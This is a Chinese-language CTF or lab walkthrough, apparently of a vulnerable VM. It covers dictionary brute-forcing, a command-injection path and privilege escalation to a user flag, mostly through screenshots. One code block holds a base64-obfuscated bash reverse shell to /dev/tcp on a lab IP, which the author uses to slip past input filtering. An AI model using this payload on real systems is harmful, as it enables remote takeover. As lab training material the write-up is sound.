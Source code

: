 看了一眼源码有个这个东西 应该是账户密码之类的
![image.png](https://s2.loli.net/2025/05/09/9fUKi8sPYuJzSr7.png)

## 字典爆破7311

这个端口进行字典爆破

![image.png](https://s2.loli.net/2025/05/09/nuacsQ7UfmMroyw.png)


发现有两个路径

其中一个是个命令注入

![image.png](https://s2.loli.net/2025/05/09/qaEGmoMC3fiS4jg.png)



![](https://s2.loli.net/2025/05/09/9Uj6eqXoN2YPZMh.png)

藏这么深 想办法进行反弹shell

正常输入是没得效果的 转编码试试

好家伙 也是没用的 这个说实话真不会 看了wp才知道


```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjExMC4xMjgvODg4OCAwPiYx" | base64 -d | bash

bash -i >& /dev/tcp/192.168.110.128/8888 0>&1转成base64 这么去让那个界面执行反弹shell
```

![image.png](https://s2.loli.net/2025/05/09/UrX6BJfHpOGYhMm.png)

## 提权
也是没有头绪 也是没有去认真信息收集 错失一个信息点

![image.png](https://s2.loli.net/2025/05/09/2RGHzfkjEZ81TN5.png)



切换到nitish用户

![image.png](https://s2.loli.net/2025/05/09/wYVPBu4GrlZbvKO.png)

找到第一个flag

## 提权
发现这个东西 但不知道具体是啥
![image.png](https://s2.loli.net/2025/05/09/c7TzojPLmbUNeud.png)

讲实话这一部分人云亦云的

![image.png](https://s2.loli.net/2025/05/09/c7JZWmgAdlPiqOL.png)
